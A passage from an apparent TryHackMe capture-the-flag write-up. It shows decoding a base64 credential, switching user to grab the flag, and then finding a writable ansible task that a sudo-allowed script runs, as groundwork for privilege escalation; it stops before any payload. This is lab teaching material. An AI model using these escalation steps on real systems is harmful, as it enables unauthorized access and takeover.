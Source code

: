Let's decode that `base64` string to see what's inside!

```bash
[simeon@aratus test-auth]$ echo "dG[REDACTED]s=" | base64 -d
theodore:Ri[REDACTED]ik
```
Yes! We now have the credentials for `theodore` and we can finally get the user flag!

```bash
[simeon@aratus test-auth]$ su theodore
Password:
[theodore@aratus test-auth]$ cat ~/user.txt
THM{[REDACTED]}
```

## Root

Enumeration time again! 

We can run an specific script with the user `automation` and `sudo`...

```bash
[theodore@aratus ~]$ sudo -l
Matching Defaults entries for theodore on aratus:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset,
    env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR
    USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT
    LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User theodore may run the following commands on aratus:
    (automation) NOPASSWD: /opt/scripts/infra_as_code.sh
```
Let's check this script really quick!

```bash
[theodore@aratus ~]$ cat /opt/scripts/infra_as_code.sh
#!/bin/bash
cd /opt/ansible
/usr/bin/ansible-playbook /opt/ansible/playbooks/*.yaml
```
Seems like a script to execute `ansible`. If you don't know what `ansible` is, [here you have more information](https://www.ansible.com/resources/get-started?hsLang=en-us)!

So, after googling a little how `ansible` works, we started searching for some tasks inside the `ansible` folder that we can edit...

Turns out that inside the `geerlingguy.apache` role/folder there's a task with the name `configure-RedHat.yml` and we can edit it!!

```bash
[theodore@aratus ~]$ ls -la /opt/ansible/roles/geerlingguy.apache/tasks/
total 36
drwxr-xr-x. 2 automation automation  228 Dec  2 11:55 .
drwxr-xr-x. 9 automation automation  178 Dec  2 11:55 ..
-rw-rw-r--. 1 automation automation 1693 Dec  2 11:55 configure-Debian.yml
-rw-rw-r--+ 1 automation automation 1211 Mar 26 20:04 configure-RedHat.yml
-rw-rw-r--. 1 automation automation  546 Dec  2 11:55 configure-Solaris.yml
-rw-rw-r--. 1 automation automation  711 Dec  2 11:55 configure-Suse.yml
-rw-rw-r--. 1 automation automation 1388 Dec  2 11:55 main.yml
-rw-rw-r--. 1 automation automation  193 Dec  2 11:55 setup-Debian.yml
-rw-rw-r--. 1 automation automation  198 Dec  2 11:55 setup-RedHat.yml
-rw-rw-r--. 1 automation automation  134 Dec  2 11:55 setup-Solaris.yml
-rw-rw-r--. 1 automation automation  133 Dec  2 11:55 setup-Suse.yml
```
